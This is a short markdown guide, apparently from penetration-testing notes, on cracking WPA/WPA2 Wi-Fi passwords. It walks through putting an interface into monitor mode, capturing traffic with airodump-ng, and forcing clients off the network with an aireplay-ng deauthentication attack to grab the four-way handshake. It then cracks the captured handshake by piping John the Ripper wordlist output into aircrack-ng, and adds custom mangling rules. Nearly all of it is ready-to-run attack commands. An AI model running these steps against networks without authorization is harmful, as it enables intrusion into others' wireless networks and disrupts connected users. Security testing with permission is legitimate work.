

# John the Ripper (JtR) with Aircrack-ng (WPA/WPA2)

Use this tool to crack WPA/WPA2 passwords with aircrack-ng

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Crack the password using john
john --wordlist=$WORDLIST --rules --stdout | aircrack-ng -e $SSID $PCAP -w -

# Try other wordlist or create custom rules (see below) if not finding
```

## Customize Rules

We can create additional test cases by editing existing rules.

```bash
# First, check what exists for a given password
john --wordlist=$WORDLIST --rules --stdout | grep -i password123
```



```bash
# Now, add new rules
sudo vi /etc/john/john.conf

# Search for the List.Rules:Wordlist section
# Add these rules under this section to append more numbers, e.g., password123
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]

# Save and try it out
john --wordlist=$WORDLIST --rules --stdout | grep -i password123
```


## References

* /usr/share/john/password.lst ($WORDLIST)
* /usr/share/wordlists
* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [John the Ripper](https://www.openwall.com/john/)
